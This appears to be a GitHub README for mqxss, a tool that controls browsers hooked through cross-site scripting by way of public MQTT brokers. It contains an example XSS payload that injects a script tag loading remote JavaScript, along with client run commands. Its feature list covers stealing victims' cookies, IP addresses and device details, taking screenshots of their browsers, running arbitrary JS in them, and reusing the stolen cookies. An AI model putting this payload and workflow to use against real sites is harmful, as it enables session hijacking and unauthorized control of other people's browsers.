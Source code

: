# mqxss v0.2


## **mqxss acts as a client to communicate with hooked browsers over MQTT**



![Screenshot from 2023-07-03 15-15-35](https://github.com/grampae/mqxss/assets/36344197/d5fae62a-bc5c-4d98-b45e-03cdf541e979)




The benefit to using this over beef or xsshunter is that besides hosting the js payload there is no infra setup, you can use a public broker (however currently uses obfuscation, encryption is in the works).

Hooked browsers will communicate in the MQTT topic on the broker you specify, there are many public/free brokers to test this with.
 

The client utilizes the python paho.mqtt library while the js payload utilizes 'mqttws31.min.js' which it pulls from here 'https://cdnjs.cloudflare.com/ajax/libs/paho-mqtt/1.0.1/mqttws31.min.js'.
 
***
 
## Directions

![Screenshot from 2024-01-17 11-34-59](https://github.com/grampae/mqxss/assets/36344197/4ac417e6-d61c-4859-9d37-690bdba6cc3c)

 
**To generate a JS payload** to hook browsers with set the `-g` flag at runtime along with your broker, port and topic variables.  Doing so will create your payload in the /js/ folder.  

**To run the client** provide your broker, port, and topic as so 
 
`mqxss.py -p 8081 -b some.mqtt.broker.com -t mytopicname`

**To run the client with credentials** provide your broker, port, user name, password and topic as so 

`mqxss.py -p 8081 -b some.mqtt.broker.com -t mytopicname -u username -pw password`
  
**Send your XSS payload** to the victim while the mqxss client is running, ex: `'"><script src=https://example.com/x.js async></script>` or something similar, if vulnerable you should get a notification saying the browser has connected with some basic details including cookies etc.
 
![a](https://github.com/grampae/mqxss/assets/36344197/20096c91-2e9e-4302-b5a9-e2edd665d382)

***
 
**Features:**

- **js payload utilizes MQTT QoS 1 and Last Will, mqxss will be notified of disconnects or connects that occur while client is not connected to the broker**
- **generate js payload at runtime to hook browsers with**
- **currently only works with mqtt brokers that use secure websockets**
- **open hooked browser location with captured cookies in browser for convenience**
- **when hooked it grabs cookies, ip, device type, user agent**
- **view past hooked (unhooked) browsers**
- **send js to currently hooked browsers and get response if available**
- **screenshot of hooked browser**
- **set user , password  for brokers that require it at runtime**
- **pushover notification by setting ptoken and userkey variables in mqxss.py, then utilizing the -po command line flag**
